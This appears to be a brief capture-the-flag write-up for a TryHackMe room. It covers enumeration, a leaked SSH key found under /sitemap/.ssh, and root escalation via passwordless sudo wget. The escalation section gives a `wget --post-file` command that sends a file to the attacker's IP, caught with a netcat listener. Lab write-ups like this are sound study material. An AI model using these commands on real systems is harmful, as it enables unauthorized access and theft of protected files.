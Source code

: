 # Write up 

## Help [[Tryhackme/Wgl_ctf/help]]

## Links
- [[WebApp]]
- [[Pentesting]]


## Keys words
- Dirb
- Ssh
- wget privilege escalation


## Info
- Code source home page `Jessie`

## Enumeration

### Nmap 
- Shh
- http 80

### Dirb
- /sitemap
- /sitemap/.ssh

## Exploit
Take ssh key and login with the command `ssh -i id_rsa jessie@ip`

## Privilege escaltion
- sudo -l => wget no password

### Command
`wget --post-file=path_file <yourIP>`
`nc -lnvp 80` for getting the file
